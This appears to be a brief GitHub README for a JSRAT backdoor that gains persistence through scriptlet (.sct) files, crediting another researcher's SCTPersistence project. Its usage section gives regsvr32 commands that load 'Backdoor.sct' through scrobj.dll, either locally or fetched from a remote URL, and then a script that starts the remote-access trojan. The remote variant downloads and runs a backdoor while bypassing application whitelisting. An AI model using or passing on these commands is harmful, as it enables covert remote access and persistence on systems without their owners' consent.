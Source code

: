 Another way of JSRAT on SCTPersistence.
---

Thanks to Casey Smith@subTee

https://github.com/subTee/SCTPersistence


---
###Usage:

1.(local)


`regsvr32.exe /s /i:Backdoor.sct scrobj.dll`


or (remote)


`regsvr32.exe /s /i:http://example/Backdoor.sct scrobj.dll`


2.run BackdoorTest.js to start JSRAT

 













